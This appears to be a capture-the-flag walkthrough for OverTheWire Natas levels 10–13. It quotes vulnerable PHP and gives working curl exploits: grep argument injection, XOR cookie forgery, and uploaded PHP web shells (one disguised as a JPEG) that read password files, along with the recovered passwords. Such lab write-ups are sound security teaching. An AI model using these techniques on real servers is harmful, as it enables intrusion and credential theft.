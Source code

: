 # Natas

## level 10

```php
// http://natas10.natas.labs.overthewire.org/index-source.html
<?php
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i $key dictionary.txt");
    }
}
?>
```

This level only check whether the input contains character ```;```, ```|``` and ```&```.

```
$ curl -u natas10:nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu http://natas10.natas.labs.overthewire.org/ -F 'needle=. /etc/natas_webpass/natas11 #' -F 'submit=Search'
```

```
U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK
```

## level 11

```php
// http://natas11.natas.labs.overthewire.org/index-source.html
<?php
$defaultdata = array( "showpassword"=>"no", "bgcolor"=>"#ffffff");

function xor_encrypt($in) {
    $key = '<censored>';
    $text = $in;
    $outText = '';

    // Iterate through each character
    for($i=0;$i<strlen($text);$i++) {
    $outText .= $text[$i] ^ $key[$i % strlen($key)];
    }

    return $outText;
}

function loadData($def) {
    global $_COOKIE;
    $mydata = $def;
    if(array_key_exists("data", $_COOKIE)) {
    $tempdata = json_decode(xor_encrypt(base64_decode($_COOKIE["data"])), true);
    if(is_array($tempdata) && array_key_exists("showpassword", $tempdata) && array_key_exists("bgcolor", $tempdata)) {
        if (preg_match('/^#(?:[a-f\d]{6})$/i', $tempdata['bgcolor'])) {
        $mydata['showpassword'] = $tempdata['showpassword'];
        $mydata['bgcolor'] = $tempdata['bgcolor'];
        }
    }
    }
    return $mydata;
}

function saveData($d) {
    setcookie("data", base64_encode(xor_encrypt(json_encode($d))));
}

$data = loadData($defaultdata);

if(array_key_exists("bgcolor",$_REQUEST)) {
    if (preg_match('/^#(?:[a-f\d]{6})$/i', $_REQUEST['bgcolor'])) {
        $data['bgcolor'] = $_REQUEST['bgcolor'];
    }
}

saveData($data);
?>
```

```
$ curl -u natas11:U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK http://natas11.natas.labs.overthewire.org/ -c cookie.txt
```

We get the cookie and we konw what the cookie means, so we kan get the ```key``` in function ```xor_encrypt```.

```python
#!/usr/bin/env python3
import base64
import urllib.parse

with open('cookie.txt', 'r') as f:
    cookie = f.readlines()[-1].split('\t')[-1]
cookie = urllib.parse.unquote(cookie)
cookie = base64.urlsafe_b64decode(cookie)

text = b'{"showpassword":"no","bgcolor":"#ffffff"}';

key = ''

for i in range(len(text)):
    key += chr(text[i]^cookie[i])

print(key)
```

Let's construct a new cookie with the ```key```.

```php
<?php
function xor_encrypt($in) {
    $key = 'qw8J';
    $text = $in;
    $outText = '';
 
    for($i=0;$i<strlen($text);$i++) {
        $outText .= $key[$i % strlen($key)] ^ $text[$i];
    }
 
    return $outText;
}
 
$defaultdata = '{"showpassword":"yes","bgcolor":"#ffffff"}';
echo base64_encode(xor_encrypt($defaultdata));
?>
```

```
$ curl -u natas11:U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK http://natas11.natas.labs.overthewire.org/ -b 'data=ClVLIh4ASCsCBE8lAxMacFMOXTlTWxooFhRXJh4FGnBTVF4sFxFeLFMK'
```

```
The password for natas12 is EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3
```

## level 12

This level we can upload a file without type checking.

```
$ curl -u natas12:EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3 http://natas12.natas.labs.overthewire.org/
```

```
<form enctype="multipart/form-data" action="index.php" method="POST">
<input type="hidden" name="MAX_FILE_SIZE" value="1000" />
<input type="hidden" name="filename" value="mx7ozjvm3x.jpg" />
Choose a JPEG to upload (max 1KB):<br/>
<input name="uploadedfile" type="file" /><br />
<input type="submit" value="Upload File" />
</form>
```

Create a file ```ving.php```.

```php
<?php
passthru("cat /etc/natas_webpass/natas13");
?>
```

```
$ curl -u natas12:EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3 http://natas12.natas.labs.overthewire.org/ -F 'filename=mx7ozjvm3x.php' -F 'uploadedfile=@ving.php'
```

```
The file <a href="upload/vimpzt7smb.php">upload/vimpzt7smb.php</a> has been uploaded
```

```
$ curl -u natas12:EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3 http://natas12.natas.labs.overthewire.org/upload/vimpzt7smb.php
jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY
```

## level 13

This level checks whether the file is an image using ```exif_imagetype``` function before receive it.
So we create a file looks like an image.

```
$ echo -e '\xff\xd8\xff\xe0<?passthru("cat /etc/natas_webpass/natas14");?>' > ving.php
```

```
$ curl -u natas13:jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY http://natas13.natas.labs.overthewire.org/ -F 'filename=mx7ozjvm3x.php' -F 'uploadedfile=@ving.php'
```

```
The file <a href="upload/6xyuj68rtk.php">upload/6xyuj68rtk.php</a> has been uploaded
```

```
$ curl -u natas13:jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY http://natas13.natas.labs.overthewire.org/upload/6xyuj68rtk.php
Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1
```
